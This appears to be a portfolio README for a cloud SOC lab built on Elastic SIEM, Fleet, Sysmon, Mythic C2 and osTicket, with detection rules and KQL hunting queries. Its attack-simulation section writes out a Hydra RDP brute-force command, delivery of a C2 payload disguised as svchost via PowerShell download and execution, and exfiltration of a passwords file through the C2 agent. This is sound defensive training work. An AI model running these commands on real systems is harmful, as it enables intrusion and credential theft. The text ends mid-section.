# Cloud-Native SOC Lab: Elastic SIEM, Adversary Simulation & Automated Incident Response

A hands-on security operations lab built entirely on cloud infrastructure, designed to replicate the operational workflow of a real SOC environment. This project covers the full detection engineering lifecycle: deploying a centralized SIEM, enrolling and managing endpoints, configuring Sysmon for enhanced telemetry, simulating a multi-stage adversary attack chain using a command-and-control framework, writing custom detection rules, and integrating automated ticketing so alerts flow end-to-end into an incident response workflow.

The lab was intentionally built in the cloud rather than locally to mirror how enterprise security infrastructure actually operates, and to develop familiarity with network segmentation, firewall policy, and remote system management at the same time.

---

## Table of Contents

- [Skills Demonstrated](#skills-demonstrated)
- [Architecture](#architecture)
- [Infrastructure Overview](#infrastructure-overview)
- [ELK Stack Setup](#elk-stack-setup)
- [Fleet Server Setup](#fleet-server-setup)
- [Windows Endpoint Setup](#windows-endpoint-setup)
- [Linux Endpoint Setup](#linux-endpoint-setup)
- [Mythic C2 Setup](#mythic-c2-setup)
- [osTicket & Alert Integration](#osticket--alert-integration)
- [Attack Simulation](#attack-simulation)
- [Detection Rules & Alerts](#detection-rules--alerts)
- [KQL Threat Hunting Reference](#kql-threat-hunting-reference)
- [Kibana Dashboard](#kibana-dashboard)
- [Technical Challenges](#technical-challenges)
- [Tools & Technologies](#tools--technologies)

---

## Skills Demonstrated

- Deploying and configuring a production-style ELK Stack (Elasticsearch + Kibana) on cloud infrastructure
- Managing distributed Elastic Agents centrally through Fleet Server
- Enriching Windows endpoint telemetry with Sysmon using the olaf hartong community config
- Simulating a realistic multi-phase adversary lifecycle using Mythic C2 and the Apollo agent
- Writing custom detection rules in Kibana using KQL and Threshold logic
- Mapping detections to the MITRE ATT&CK framework
- Integrating automated alert-to-ticket workflows between Kibana and osTicket via Webhook connector
- Designing and enforcing network segmentation using a private VPC and cloud firewall groups
- Threat hunting across Windows and Linux log sources using KQL in Kibana Discover
- Troubleshooting real infrastructure issues including agent enrollment failures, architecture mismatches, and firewall misconfiguration

---

## Architecture

The lab runs entirely in Vultr's cloud infrastructure across six compute instances, all connected through a private VPC subnet with a default-deny firewall policy. Public access is restricted to specific ports and source IPs through cloud-level firewall groups, adding a layer of perimeter control on top of host-level firewall rules.



**Private Network:** 172.31.0.0/24
**Subnet Mask:** 255.255.255.0
**Region:** Seattle, US

### Attack Chain Overview

The adversary simulation followed a six-phase lifecycle modeled on real-world intrusion patterns:







| Phase | Tactic | Technique |
|---|---|---|
| 1 | Initial Access | RDP brute force (T1110.001) |
| 2 | Discovery | Post-access enumeration via RDP session |
| 3 | Defense Evasion | Windows Defender disabled (T1562.001) |
| 4 | Execution | Mythic Apollo agent dropped and executed (T1059) |
| 5 | Command & Control | HTTP-based C2 callback to Mythic server (T1071.001) |
| 6 | Exfiltration | Credential file retrieved via C2 agent (T1041) |

---

## Infrastructure Overview

| Role | OS | VPC Address | Notes |
|---|---|---|---|
| Elasticsearch + Kibana (SIEM) | Ubuntu 24.04 LTS | 172.31.0.3 | Central log storage and analysis |
| Fleet Server | Ubuntu 24.04 LTS | 172.31.0.4 | Elastic Agent management hub |
| Windows Endpoint (Victim) | Windows Server 2022 | — | Sysmon + Elastic Agent, RDP enabled |
| Linux Endpoint (Victim) | Ubuntu 24.04 LTS | — | Elastic Agent, SSH exposed |
| Mythic C2 Server | Ubuntu 24.04 LTS | — | Apollo agent, HTTP C2 profile |
| osTicket Server | Windows Server 2022 | 172.31.0.5 | XAMPP + osTicket, Kibana integration |

**Elastic Stack version:** 9.5.3
**Mythic version:** 2.4.36 (Apollo agent, UI 0.3.114)



### Network Segmentation & Firewall Policy

Two firewall groups enforced perimeter access control using a default-deny baseline.

**SOC Lab Firewall Group** (applied to SIEM + Fleet):
- SSH (22) — analyst workstation only
- TCP 1:65535 — analyst workstation only
- TCP 1:65535 — Fleet Server (server-to-server communication)
- TCP 9200 — Elasticsearch API (unrestricted for agent ingestion)
- All other inbound: Drop



**Mythic Firewall Group** (applied to C2 server):
- TCP 1:65535 — analyst workstation
- TCP 1:65535 — SIEM server
- TCP 1:65535 — Linux endpoint
- TCP 9999 — Windows endpoint (payload delivery channel)
- TCP 9999 — unrestricted (Python HTTP server serving the payload)
- HTTP 80 — unrestricted
- All other inbound: Drop



---

## ELK Stack Setup

Elasticsearch and Kibana were installed on Ubuntu 24.04 using the official `.deb` (x86_64) packages. Encryption keys were generated for Kibana's alerting, reporting, and saved objects features — a step that is often skipped but required for production-grade alerting to function correctly.

```bash
# System update
sudo apt update && sudo apt upgrade -y

# Install Elasticsearch
curl -L -O https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-9.5.3-amd64.deb
sudo dpkg -i elasticsearch-9.5.3-amd64.deb

# Configure /etc/elasticsearch/elasticsearch.yml
# - Set network.host to the server's public IP
# - Uncomment http.port: 9200

sudo systemctl daemon-reload
sudo systemctl enable --now elasticsearch.service

# Install Kibana
curl -L -O https://artifacts.elastic.co/downloads/kibana/kibana-9.5.3-amd64.deb
sudo dpkg -i kibana-9.5.3-amd64.deb

# Configure /etc/kibana/kibana.yml
# - Uncomment and set server.port: 5601
# - Set server.host to the public IP

# Generate and store encryption keys (required for alerting)
cd /usr/share/kibana/bin
sudo ./kibana-encryption-keys generate
sudo ./kibana-keystore add xpack.encryptedSavedObjects.encryptionKey
sudo ./kibana-keystore add xpack.reporting.encryptionKey
sudo ./kibana-keystore add xpack.security.encryptionKey

sudo systemctl enable --now kibana.service
```

Kibana is accessible via the browser at `http://<ELK-SERVER-IP>:5601`.



---

## Fleet Server Setup

Fleet Server provides centralized lifecycle management for all Elastic Agents in the environment, enabling remote policy updates, health monitoring, and integration management without touching individual endpoints.

A dedicated Ubuntu instance was provisioned as the Fleet Server, separate from the SIEM, to mirror how enterprise environments separate agent management from log storage.

```bash
# Download x86_64 Elastic Agent package (architecture must match host CPU)
curl -L -O https://artifacts.elastic.co/downloads/beats/elastic-agent/elastic-agent-9.5.3-linux-x86_64.tar.gz
tar xzvf elastic-agent-9.5.3-linux-x86_64.tar.gz
cd elastic-agent-9.5.3-linux-x86_64

# Enroll as Fleet Server
# --insecure is required when using a self-signed TLS certificate
sudo ./elastic-agent install \
  --fleet-server-es=https://<ELK-SERVER-IP>:9200 \
  --fleet-server-service-token=<generated-token> \
  --fleet-server-policy=fleet-server-policy \
  --fleet-server-es-ca-trusted-fingerprint=<fingerprint> \
  --fleet-server-port=8220 \
  --install-servers \
  --insecure
```

> **Configuration note:** The Fleet Server host URL configured in Kibana (Fleet → Settings → Fleet Server hosts) must point to the Fleet Server's own IP and port (`https://<FLEET-SERVER-IP>:8220`), not the SIEM server. Pointing it at the wrong host causes agents to report as Unhealthy despite successful enrollment at the CLI level.



---

## Windows Endpoint Setup

Windows Server 2022 was deployed as a target endpoint with RDP enabled to simulate a common enterprise attack surface. Sysmon was installed using the [olaf hartong community configuration](https://github.com/olafhartong/sysmon-modular), which provides MITRE ATT&CK-tagged rules out of the box and substantially increases process, network, and file creation visibility beyond default Windows Event Logs.

### Sysmon Installation

```powershell
# From the Sysmon directory after downloading Sysmon.zip and sysmonconfig.xml
.\Sysmon64.exe -accepteula -i sysmonconfig.xml
```

Verify in Event Viewer:
`Applications and Services Logs → Microsoft → Windows → Sysmon → Operational`

### Elastic Agent Enrollment (Windows)

```powershell
$ProgressPreference = 'SilentlyContinue'
Invoke-WebRequest -Uri https://artifacts.elastic.co/downloads/beats/elastic-agent/elastic-agent-9.5.3-windows-x86_64.zip -OutFile elastic-agent-9.5.3-windows-x86_64.zip
Expand-Archive .\elastic-agent-9.5.3-windows-x86_64.zip -DestinationPath .
cd elastic-agent-9.5.3-windows-x86_64

.\elastic-agent.exe install `
  --url=https://<FLEET-SERVER-IP>:8220 `
  --enrollment-token=<token> `
  --insecure
```

### Custom Log Integrations

Two Custom Windows Event Log integrations were added to the Windows agent policy in Fleet to push Sysmon and Defender telemetry into Elasticsearch:

| Integration | Event Channel |
|---|---|
| Sysmon | `Microsoft-Windows-Sysmon/Operational` |
| Windows Defender | `Microsoft-Windows-Windows Defender/Operational` |

---

## Linux Endpoint Setup

An Ubuntu 24.04 server was deployed with SSH exposed publicly. This produced a continuous stream of real-world brute force attempts from external IPs worldwide within hours of deployment — providing authentic attack telemetry without any simulation required for the SSH component of the lab.

```bash
curl -L -O https://artifacts.elastic.co/downloads/beats/elastic-agent/elastic-agent-9.5.3-linux-x86_64.tar.gz
tar xzvf elastic-agent-9.5.3-linux-x86_64.tar.gz

# Note: extraction may place the folder at filesystem root depending on current directory
# Use: find / -type d -name "elastic-agent-9.5.3*" 2>/dev/null to locate it

cd /elastic-agent-9.5.3-linux-x86_64

sudo ./elastic-agent install \
  --url=https://<FLEET-SERVER-IP>:8220 \
  --enrollment-token=<token> \
  --insecure
```

With the agent running, failed and accepted SSH authentication events flow automatically into Kibana as structured logs under `system.auth.ssh.event`.




---

## Fleet Agents

All three agents enrolled and reporting healthy simultaneously:


---

## Mythic C2 Setup

Mythic C2 (version 2.4.36) was deployed on a dedicated Ubuntu instance as the adversary-controlled infrastructure. The Apollo agent was chosen for its rich command set and active development. The HTTP C2 profile was used for callback communication, simulating common adversary tradecraft that blends with normal web traffic.

```bash
# Install prerequisites
sudo apt install docker-compose make -y
sudo systemctl enable --now docker.service

# Clone and build Mythic
sudo git clone https://github.com/its-a-feature/Mythic
cd Mythic
./install_docker_ubuntu.sh
sudo make
sudo ./mythic-cli start

# Retrieve generated admin credentials
cat .env | grep MYTHIC_ADMIN_PASSWORD

# Install Apollo agent and HTTP C2 profile
sudo ./mythic-cli install github https://github.com/MythicAgents/Apollo.git
sudo ./mythic-cli install github https://github.com/MythicC2Profiles/http
```

The Mythic web UI is accessible at `https://<MYTHIC-SERVER-IP>:7443`.

### Payload Generation

The Apollo payload was configured with the following parameters:

- **OS:** Windows
- **Output type:** WinExe
- **C2 Profile:** HTTP
- **Callback host:** `http://<MYTHIC-SERVER-IP>`
- **Filename:** `svchost-sparshsaraiya.exe`

The filename deliberately mimics a legitimate Windows system process (`svchost.exe`) to demonstrate process name masquerading — **MITRE ATT&CK T1036.004 (Masquerading: Match Legitimate Name or Location)**.

```bash
# Download the compiled payload to the Mythic server
wget https://<MYTHIC-SERVER-IP>:7443/direct/download/<payload-id> --no-check-certificate
mv <downloaded-file> svchost-sparshsaraiya.exe

# Host the payload for delivery to the victim
python3 -m http.server 9999
```

```powershell
# Deliver payload to the Windows victim via PowerShell (simulating post-exploitation access)
Invoke-WebRequest -Uri http://<MYTHIC-SERVER-IP>:9999/svchost-sparshsaraiya.exe `
  -OutFile "C:\Users\Public\Downloads\svchost-sparshsaraiya.exe"
```

Executing the payload established an active C2 callback to the Mythic server:




---

## osTicket & Alert Integration

osTicket was deployed on a Windows Server 2022 instance running XAMPP (Apache + MySQL), providing a realistic ticketing interface to close the loop between detection and response. A Kibana Webhook connector was configured to push alert data directly into osTicket via its REST API, so every triggered detection rule automatically creates an actionable ticket for analyst triage.

**Integration path:** Kibana alert fires → Webhook connector → osTicket REST API → Ticket created in agent panel

> **License note:** Kibana's Webhook connector requires an active license. A 30-day trial was activated via Stack Management → License Management to unlock this feature for the lab.

RDP brute force alerts generated tickets automatically, which were investigated and resolved within the platform:






---

## Attack Simulation

### Phase 1 — Initial Access: RDP Brute Force

Kali Linux was used as the attacker machine. Hydra performed a credential-stuffing attack against RDP on the Windows endpoint using a custom wordlist.

> **Tool note:** Crowbar is commonly used for this step in documentation, but it relies on legacy xfreerdp syntax that was dropped in FreeRDP version 3. Current Kali ships FreeRDP 3 only, and the `freerdp2-x11` compatibility package has been removed from the repos. Hydra was used instead as it handles RDP brute force without this dependency.

```bash
hydra -l Administrator -P mydfir-wordlist.txt rdp://<WINDOWS-VICTIM-IP>
```

Hydra successfully recovered the valid credentials, confirming the brute force attack:



RDP access was then established directly from Kali:

```bash
xfreerdp3 /u:Administrator /p:'<password>' /v:<WINDOWS-VICTIM-IP>:3389 /cert:ignore
```

### Phase 2 — Discovery

Post-access enumeration was conducted via the active RDP session to simulate how an attacker would map the environment before moving forward.

### Phase 3 — Defense Evasion

Windows Defender was disabled from within the RDP session to allow the C2 payload to execute without triggering antivirus. This generated a **Windows Event ID 5001** (Defender disabled), which was captured by the Elastic Agent and is detectable via the Defender integration.

### Phase 4 — Execution

The Apollo payload was downloaded from the Mythic server via PowerShell and executed on the victim:

```powershell
Invoke-WebRequest -Uri http://<MYTHIC-SERVER-IP>:9999/svchost-sparshsaraiya.exe `
  -OutFile "C:\Users\Public\Downloads\svchost-sparshsaraiya.exe"

.\svchost-sparshsaraiya.exe
```

### Phase 5 — Command & Control

Payload execution established an active C2 callback from the Windows victim to the Mythic server via HTTP, visible immediately in the Mythic dashboard as an active session.

### Phase 6 — Exfiltration

A credential file was exfiltrated from the victim using the Apollo agent's built-in download capability:

```
download C:\Users\Administrator\Documents\passwords.txt
```

The file appeared in Mythic's "Recently Downloaded Files" panel, confirming successful exfiltration.

---

## Detection Rules & Alerts

Four detection rules were created and enabled in Kibana's Security Detection Engine (SIEM):

| Rule Name | Rule Type | Severity | MITRE Tactic | Actions |
|---|---|---|---|---|
| SSH Brute Force Attempt | Threshold Rule | Medium | Credential Access (T1110) | osTicket webhook |
| RDP Brute Force Activity | Elasticsearch Query | Medium | Credential Access (T1110) | osTicket webhook |
| Mythic C2 Apollo Agent Detected | Custom Query Rule | Critical | Execution / C2 (T1059, T1071) | osTicket webhook |
| Endpoint Security (Elastic Defend) | Elastic built-in | Medium | — | — |






---

## KQL Threat Hunting Reference

The queries below were used throughout the project in Kibana Discover for threat hunting, alert validation, and telemetry verification.

```kql
# SSH — Failed authentication attempts on Linux endpoint
system.auth.ssh.event: * and agent.name: "Linux-Endpoint" and system.auth.ssh.event: "Failed"

# SSH — Successful authentication on Linux endpoint
system.auth.ssh.event: * and agent.name: "Linux-Endpoint" and system.auth.ssh.event: "Accepted"

# RDP — Failed authentication (Windows Event ID 4625)
event.code: "4625"

# RDP — Successful authentication via Remote Desktop or RDP (Logon Types 10 and 7)
event.code: "4624" and (winlog.event_data.LogonType: 10 or winlog.event_data.LogonType: 7)

# C2 Agent — Process create matching Apollo by filename or SHA256 hash (Sysmon Event ID 1)
event.code: 1 and (
  winlog.event_data.OriginalFileName: Apollo.exe or
  winlog.event_data.Hashes: "09A3E9732275A558F5B3AFFC00AB55AEC404C1CF2CD42BECDC8FD22E2BB452B6"
)

# C2 Agent — Outbound network connections initiated by the host (Sysmon Event ID 3)
event.code: 3 and winlog.event_data.Initiated: true and winlog.provider_name: "Microsoft-Windows-Sysmon"

# Suspicious process execution — PowerShell, CMD, or rundll32 spawned (Sysmon Event ID 1)
event.code: 1 and (powershell or cmd or rundll32) and winlog.provider_name: "Microsoft-Windows-Sysmon"

# Defense evasion — Windows Defender real-time protection disabled (Event ID 5001)
event.code: "5001" and winlog.provider_name: "Microsoft-Windows-Windows Defender"

# Combined C2 hunting query — process execution AND suspicious outbound connections
(event.code: 1 and (powershell or cmd or rundll32) and winlog.provider_name: "Microsoft-Windows-Sysmon")
or
(event.code: 3 and winlog.event_data.Initiated: true and winlog.provider_name: "Microsoft-Windows-Sysmon")
```

---

## Kibana Dashboard

A custom authentication activity dashboard was built in Kibana visualizing SSH and RDP brute force activity across all monitored hosts. It includes geographic heat maps plotting attacker source IPs by country, data tables ranking the most targeted usernames and highest-volume source IPs, and separate panels for failed vs. successful authentication events across both protocols.

The dashboard provides the kind of at-a-glance situational awareness that a SOC analyst would use to identify ongoing brute force campaigns and triage which events warrant further investigation.









---

## Technical Challenges

Documenting real obstacles and how they were resolved is part of what makes a lab write-up valuable. These are the significant issues encountered during this build:

**1. Crowbar incompatibility with FreeRDP 3 on current Kali Linux**

Crowbar's RDP brute force module calls `xfreerdp` using legacy FreeRDP 2 argument syntax, which was removed in FreeRDP 3. Current Kali ships FreeRDP 3 exclusively, and the `freerdp2-x11` compatibility package has been removed from the Kali repositories entirely, making Crowbar non-functional for RDP attacks on a fresh Kali install. Switching to Hydra resolved this — Hydra implements RDP brute force natively without depending on xfreerdp, and successfully completed the credential attack.

**2. Elastic Agent partial install leaving a corrupt service registration**

On the Windows endpoint, a failed install attempt (due to the missing `--insecure` flag) left the agent registered as a Windows service without completing enrollment. Subsequent install attempts reported "already installed at `C:\Program Files\Elastic\Agent`," but the running binary couldn't be uninstalled from inside that directory. The fix was navigating to `C:\` first, then calling the full absolute path to the binary for uninstall, avoiding the "running inside the install path" restriction.

**3. Fleet Server showing Unhealthy despite successful CLI enrollment**

After the Fleet Server agent enrolled successfully at the command line (confirmed via `elastic-agent status` showing Healthy/Connected), Kibana's Fleet UI continued to show the agent as Unhealthy. Root cause: the Fleet Server host URL in Kibana's Fleet → Settings was configured to the SIEM server's IP on port 8220 rather than the Fleet Server's own IP. The Fleet Server listens on port 8220 on its own host, so Kibana was attempting to reach it at the wrong address. Correcting the URL to point at the Fleet Server's public IP immediately resolved the status.

**4. CPU architecture mismatch on Elastic Agent package**

The `linux-arm64` Elastic Agent package was downloaded on an x86_64 Vultr instance, producing a cryptic `ELF... not found` / `Syntax error: word unexpected` error rather than a clear architecture warning. The shell was attempting to execute an ARM binary on x86_64 hardware and interpreting the binary as a shell script. Downloading the correct `linux-x86_64` package resolved it.

**5. `--insecure` flag undocumented in several install steps**

